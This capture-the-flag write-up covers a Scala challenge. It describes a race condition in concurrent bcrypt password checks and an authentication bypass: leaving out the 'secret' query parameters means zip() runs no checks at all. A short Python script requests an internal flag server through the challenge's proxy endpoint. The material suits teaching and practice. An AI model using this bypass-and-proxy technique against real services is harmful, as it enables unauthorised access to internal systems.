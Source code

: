 ```scala
    bindingFuture.onComplete {
      case Success(_) => println("Server online at http://localhost:8080/!")
      case _          => println(s"Failed")
    }

     Await.result(bindingFuture, 3.seconds)
  }
}

```
At first, I tried to crack all 3 passwords with hashcat, however it soon became clear that that cracking all hashes would take an unfeasible amount of time, given how long the first hash already took.  Going back to the source code, we see something interesting:
```scala
        parameters(
          "url",
          "secret".repeated
        ) { (url, secrets) =>
          var isAllowed = true

          val secretChecks = secrets zip SECRETS map { inputs =>
            Future {
              isAllowed = isAllowed & BCrypt.checkpw(inputs._1, inputs._2)
            }
          }
          ...
        }
```
It seems all password checks are done concurrently and will all access and write to `isAllowed` at the same time.  Since `isAllowed` is captured by the lambda function when initialized(Probably, I didn't actually verify/read the language docs for this), as long as the last returning check returns True then `isAllowed` would be True too. In my attempts to make the more complex hash checks somehow finish faster than the first one, I tried submitting empty passwords in hopes `checkPw()` would return early somehow. 
### The cheese
At some point, I had also tried either omitting all `secret` query arguments entirely/changed `secret` to `secret[]` and was *very* surprised to be greeted by the flag.
Turns out, as as per [scala docs](https://www.scala-lang.org/api/3.x/scala/collection/View$$Zip.html#zip-1dd), `zip()` will only take up to the minimum size of both arrays' items, meaning if `secrets` had no elements, no password checks will be run at all. 
```python
import httpx as requests
url = "http://35.187.242.102:10011"
target = f"http://flagserver:8081/flag"
target = urllib.parse.quote(target)
payload = f"{url}/proxy?url={target}" # Completely omit secrets
r = requests.get(payload)

print("Resp:" + r.text)
```
`cyberleague{r4c3_y0u_t0_th3_fl4g_-_sl0w34t_w1n5}`
## Await flag revenge
#langs/scala 
